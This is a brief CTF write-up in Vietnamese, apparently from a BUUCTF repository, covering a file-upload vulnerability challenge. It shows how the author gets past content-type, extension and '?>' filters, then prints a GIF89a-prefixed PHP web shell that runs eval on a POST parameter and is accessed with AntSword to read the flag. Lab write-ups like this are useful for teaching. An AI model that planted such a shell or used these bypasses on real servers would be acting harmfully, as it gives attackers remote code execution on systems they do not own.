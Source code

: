 Challenge lần này là dạng upload file vuln

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/6551a2a9-8846-4992-bccc-0146e186668c)

Mình thử upload 1 file php với content 

```php
<?php phpinfo()?>
```

Và kết quả là challenge hình như đã filter content-type là php

![Screenshot 2023-12-31 153432](https://github.com/Llam-a/BUUCTF/assets/115911041/cfb2214a-89f1-4fa6-b3cc-bae8992fb28e)

Mình dùng burp suite để bắt package

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/fa4ac3c9-ba89-40e9-87e0-f65bb58f62ff)

Mình nghĩ vấn đề là ở content-type, nên mình sẽ đổi sang là `image/jpeg`, nhưng kết quả chẳng khá hơn

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/f57c0580-b532-4573-bb9d-af93baf347f4)

Sau đó mình thử đổi đuôi file upload extension thành phtml, nhưng challenge đã filter `?>`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/0ac53cb3-1376-4a45-b4e2-e64e3e566202)

Sửa lại Trojan

```php
GIF89a
<script language='php'>eval($_POST['shell'];</script>
```

File của mình đã upload thành công

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/394f242e-6279-4dcc-99e8-f9cb7d03428b)

Dùng antsword để đọc flag

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/e881d8a9-1d71-4ca9-883d-0d50457cdb67)

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/f3e23977-fa47-4bc1-9223-ff9d82cf4489)




